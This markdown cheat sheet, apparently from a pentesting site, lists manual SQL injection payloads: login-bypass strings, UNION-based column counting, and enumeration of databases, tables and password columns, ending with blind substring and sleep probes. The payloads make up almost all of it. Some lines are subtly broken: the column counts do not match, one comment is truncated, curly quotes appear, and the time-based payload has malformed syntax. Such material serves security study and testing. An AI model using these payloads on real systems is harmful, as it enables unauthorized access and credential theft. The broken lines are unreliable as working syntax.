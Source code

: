 ```yaml
---
title: SQLi Cheat sheet for manual injection
author: amandaguglieri
draft: false
TableOfContents: true
tag: pentesting
---
```


# SQLi Cheat sheet for manual injection

See a more detailed [explanation about SQL injection](sql-injection.md).


### Manual UNION attack

```
# 0. Comments 
--comment       // Oracle
--comment       // Microsoft
/*comment*      // Microsoft
--comment       // PostgreSQL
/*comment*/     // PostgreSQL
#comment        // MySQL
-- comment      // MySQL [Note the space after the double dash]
/*comment*/     // MySQL

   
# 1. Bypass a form      
1' OR '1'='1';#
' OR '1'='1';#
1' OR '1'='1';-- - 
' OR '1'='1';-- -  


# 2. Number of columns (UNION attack)
1' OR '1'='1' order by 1;#
1' OR '1'='1' order by 2;#
1' OR '1'='1' order by 3;#
...
# Do this until you get an error message and then you will know the number of columns
# Another method to see the number of columns. ame for 
' OR '1'='1' order by 1;-- -   

# 3. Get which column is being displayed. For instance, when we know we have 6 columns:
1' OR '1'='1' UNION SELECT all 1,2,3,4,5,6;# 

# 4. Get names of all databases 
1' OR '1'='1' UNION SELECT null,table_schema,null,null,null,null,null FROM information_schema.tables;#
# 5. Get names of all tables from the selected database
1' OR '1'='1' UNION SELECT null,table_name,null,null,null,null FROM information_schema.tables;# 

# 6. Get the name of all columns of a selected table from a selected database
1' OR '1'='1' UNION SELECT null,column_name,null,null,null,null FROM information_schema.columns WHERE table_name=’users’;#

# 7. Get the value of a selected column (for instance, password)
1' OR '1'='1' UNION SELECT null,passwords,null,null,null,null FROM users;#
```

### Manual SQLi Blind attack
          
user() returns the name of the user currently using the database.
substring() returns a substring of the given argument. It takes three parameters: the input string, the position of the substring and its length.

```
' OR substring(user(), 1, 1) = 'a
' OR substring(user(), 1, 1) = 'b
1' AND SUBSTRING(user(), 1, 1 = 'r') sleep(0), sleep(10));#
```
